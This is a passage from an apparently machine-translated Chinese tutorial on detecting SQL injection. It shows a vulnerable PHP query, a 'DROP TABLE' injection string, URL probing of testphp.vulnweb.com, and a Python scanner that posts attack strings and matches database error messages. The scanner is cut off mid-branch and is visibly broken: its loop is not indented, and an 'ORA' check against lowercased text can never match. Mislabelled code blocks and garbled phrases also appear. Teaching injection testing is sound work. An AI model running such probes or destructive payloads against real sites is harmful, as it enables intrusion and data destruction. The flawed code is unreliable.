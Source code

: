 # 使用 Python 工具发现 sql 漏洞

本节介绍如何使用 sqlmap 渗透测试工具测试网站是否不受 SQL 注入的影响。sqlmap 是一个自动工具，用于查找和利用在查询参数中注入值的 SQL 注入漏洞。

# SQL 注入简介

OWASP 前 10 名将注射作为#1 风险。如果应用程序存在 SQL 注入漏洞，攻击者可以读取数据库中的数据。包括机密信息和散列密码（或者更糟的是，应用程序将密码保留为纯文本）。

SQL 注入是一种利用未经验证的输入漏洞窃取数据的技术。它是一种代码注入技术，攻击者在其中执行控制 web 应用程序数据库的恶意 SQL 查询。通过正确的查询集，用户可以访问存储在数据库中的信息。例如，考虑下面的 T0 段：

```py
$variable = $_POST['input'];
mysql_query("INSERT INTO `table` (`column`) VALUES ('$variable')");
```

如果用户输入`“value’); DROP TABLE table;–”`作为输入，则它在 sql 查询中转换的原始查询将更改数据库：

```py
INSERT INTO `table` (`column`) VALUES('value'); DROP TABLE table;--')
```

# 识别易受 SQL 注入攻击的页面

识别存在 SQL 注入漏洞的网站的一种简单方法是在 URL 中添加一些字符，如引号、逗号或句点。例如，如果页面是用 PHP 编写的，并且您有一个 URL，可以在其中传递搜索参数，那么您可以尝试在末尾添加一个参数。

注入基本上是使用 SQL 查询，如 union 和 select 以及著名的 join。只需在页面的 URL 中进行操作，例如输入以下行，直到找到上面显示的错误并找到易于访问或易受访问的表的名称。

如果您观察[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1) ，其中“GET”参数 cat 可能容易受到 SQL 注入的攻击，攻击者可以访问数据库中的信息。

检查网站是否易受攻击的一个简单测试是用星号（*）替换 get 请求参数中的值。例如，在以下 URL 中：

[http://testphp.vulnweb.com/listproducts.php?cat=*](http://testphp.vulnweb.com/listproducts.php?cat=*)

如果这导致了前面的错误，我们可以肯定地说该网站容易受到 sql 注入的攻击。

在这个屏幕捕获中，当我们试图在易受攻击的参数上使用攻击向量时，我们可以看到数据库返回的错误：

![](assets/80922e96-f6b7-442b-afd3-8aab9b8ef063.png)

使用 Python，我们可以构建一个简单的脚本，从`sql-attack-vector.txt`文本文件读取可能的 sql 攻击向量，并检查注入特定字符串后的输出。我们的目标是从一个 url 开始，在该 url 中我们识别易受攻击的参数，并将原始 url 与攻击向量相结合。

您可以在`sql_injection`文件夹的`test_url_sql_injection.py`文件中找到以下代码：

```py
import requests

url = "http://testphp.vulnweb.com/listproducts.php?cat="

with open('sql-attack-vector.txt') as file:
for payload in file:
    print ("Testing "+ url + payload)
    response = requests.post(url+payload)
    #print(response.text)
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected")
        print("Attack string: "+payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected")
        print("Attack string: "+payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected")
        print("Attack string: "+payload)
    elif "ORA" in response.text.lower():
```